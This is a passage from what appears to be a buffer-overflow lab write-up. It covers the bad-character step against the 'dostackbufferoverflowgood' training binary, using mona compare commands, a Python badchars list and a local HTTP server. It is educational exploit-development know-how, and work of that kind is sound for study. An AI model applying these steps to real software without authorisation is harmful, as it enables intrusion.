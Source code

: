 ```bash
!mona cmp -a esp -f C:\Users\User\badchar_test.bin
```

![Mona compare ESP](/assets/images/dostackbufferoverflowgood/1.e%20Mona%20compare%20ESP.png)

We can see that `0x0a` is added to our list of BadChars, we'll add this to our python script.

```bash
luc@kali:~/dostackbufferoverflowgood$ nano bad.py
    badchars = [0x00,0x0a]
luc@kali:~/dostackbufferoverflowgood$ python2 bad.py
luc@kali:~/dostackbufferoverflowgood$ python3 -m http.server
```

This resulted in a new `badchar_test.bin` file because that file no longer contains `0x0a` so we'll delete the old one and download the new version.

```bash
!mona cmp -a esp -f C:\Users\User\badchar_test.bin
```
